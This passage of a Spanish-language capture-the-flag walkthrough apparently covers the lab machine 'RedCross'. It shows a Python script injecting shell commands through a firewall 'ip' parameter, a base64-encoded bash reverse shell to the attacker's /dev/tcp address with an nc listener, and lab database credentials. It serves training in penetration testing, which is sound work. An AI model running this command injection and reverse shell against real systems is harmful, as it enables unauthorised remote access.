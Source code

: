 La seccion **adduser** si le pongo "cucuxii" -> cucuxii : 4QSjFXtt, y hago un ssh con este usaurio nos da un shell muy limitada.  
Podemos acceder a muy pocos archivos, entre ellos **/home/public/src/iptctl.c** Un script en c, como no sabemos que hace nos lo copiamos en 
nuestro sistema.

En network acces hay una sección llamada "Allow IP Adress", que sirve para abrir el firewall. Pongo la mía (10.10.14.12)

Si volvemos a hacer un escaneo de puertos, vemos que están abiertos también los 21,1025(NFS),5432(postgresSQL):
Cuando le das a **allow an ip** hay una peticion a ```/POST admin.redcross.htb/pages/actions.php   data -> ip=10.10.14.12&action=Allow+IP```  

----------------------------------
# Part 4: Inyeccion de comandos al sistema

Si seguimos con el tema del firewall, podriamos intentar un SO command inyection (ya que probablmente esta ip se le pase al comando iptables o 
cualquier otro, al poner ";" se le concatenaría un segundo comando al sistema)
```python3
sess = requests.session()
url2 = "https://admin.redcross.htb/pages/actions.php"
data = {'ip':'10.10.14.12; ping -c 1 10.10.14.12', 'action':'deny'}
cookie = {"PHPSESSID":"p62nigpusguiejj25rfaf1sq04"}
req2 = sess.post(url2, cookies=cookie, data=data, verify=False)
print(req2.text)
```
```console
└─$ sudo tcpdump -i tun0 icmp -n  
└─$ python3 red.py | html2text 
DEBUG: All checks passed... Executing iptables Network access restricted to
10.10.14.12 PING 10.10.14.12 (10.10.14.12) 56(84) bytes of data. 64 bytes from
10.10.14.12: icmp_seq=1 ttl=63 time=38.7 ms --- 10.10.14.12 ping statistics --
- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/
mdev = 38.713/38.713/38.713/0.000 ms rtt min/avg/max/mdev = 38.713/38.713/
38.713/0.000 ms

└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK 
# data = {'ip':'10.10.14.12; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash', 'action':'deny'}

└─$ sudo nc -nlvp 443
www-data@redcross:/var/www/html/admin/pages$
```

----------------------------------
# Part 5: Dentro al sistema. Explotación de binarios

En esa misma ruta hay un users.txt con las creds: "$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");"
Pero por ahora no valen para nada. Subimos nuestro [script de reconocimiento](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh):
- usuarios: root, penelope (nosotros somos www-data)  
- SUIDS -> /opt/iptctl/iptctl  
- root ejecuta /root/bin/redcrxss.py  
- El sistema es Little endian 64 bits  
